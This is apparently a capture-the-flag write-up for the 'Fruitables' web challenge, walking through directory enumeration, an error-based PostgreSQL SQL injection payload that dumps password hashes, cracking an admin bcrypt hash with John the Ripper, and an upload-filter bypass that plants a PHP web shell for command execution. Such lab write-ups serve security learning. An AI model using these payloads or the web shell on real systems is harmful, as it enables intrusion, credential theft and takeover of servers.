 # Fruitables

A website about fruit? Probably no vulnerabilities there.. Move along everybody!

# Flag
```
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
```

# Solution
I explored all the pages but seemed to offer nothing of interest.

<img src="imgs/home.png">

Enumerate endpoints and directories using `dirsearch`:

```bash
dirsearch -u https://fruitables-0.ctf.intigriti.io/

...
# Interesting results:
[21:18:09] 200 -    7KB - /account.php
[21:18:57] 301 -  253B  - /uploads  ->  http://fruitables-0.ctf.intigriti.io/uploads/
...
```

Browsing to `/account.php` shows a registration page, but trying to register prompts us that registration is closed and only allows us to login.

<img src="imgs/login.png">

After conducting some fuzzing, I found an SQLI vulnerability when the username `bob'` is input.

```
Fatal error: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near "'bob''" LINE 1: SELECT * FROM users WHERE username = 'bob'' ^ in /var/www/html/auth/fruitables_login.php:11 Stack trace: #0 /var/www/html/auth/fruitables_login.php(11): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/auth/fruitables_login.php on line 11
```

The nature of the error hints that the database is PostgreSQL. We can craft a payload that extracts data through error messages (reference from [portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):

```
bob'+UNION+SELECT+CAST((SELECT+password+FROM+users+LIMIT+1+OFFSET+2)+AS+int),'2','3','4','5','6
```

<img src="imgs/sqli.png">

Changing the LIMIT and OFFSET value, we can map out the `users` table as such:
```
| username | password |
| -------- | -------- |
| cryptocat | y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq |
| invincible | y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa |
| tjfry_admin | $2y$10$buhvcTHdjqnb2r0L15ilJefOlGTe1rpD31685K02KfOk7xizNisiy |
```

We can use John the Ripper to crack the hash of `tjfry_admin`:

```shell
john --wordlist=/opt/rockyou.txt tjfry_admin.txt
```
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0% 0g/s 260.6p/s 260.6c/s 260.6C/s dragonball..outlaw
0g 0:00:00:47 0% 0g/s 264.1p/s 264.1c/s 264.1C/s nesha..100689
futurama         (?)
1g 0:00:00:49 100% 0.02014g/s 263.9p/s 263.9c/s 263.9C/s melbourne..090990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Logging in with the credentials (`tjfry_admin`:`futurama`), we are redirected to the Admin Dashboard.

<img src="imgs/admin.png">

The file upload feature can potentially be exploited to upload a malicious PHP script?
After trying to upload some files, we learn that it only accepts JPEG and PNG files. These files are then renamed and available in `/uploads/`.

I had to utilise several bypass techniques to upload my PHP script, namely:
1. Specifying filename as `test.jpg.php`
2. Start file with JPEG magic bytes, then include PHP code under

```php
#JPEG magic bytes here..

<?php system($_REQUEST['cmd']); ?>  # execute commands in `cmd` query parameter
```

<img src="imgs/fileupload.png">

After the file is successfully uploaded, browse to it under the `/uploads/` folder and append a `cmd` query parameter to execute arbitrary commands on the target. Subsequently, we can find the name of the flag file and read its contents.

<img src="imgs/rce.png">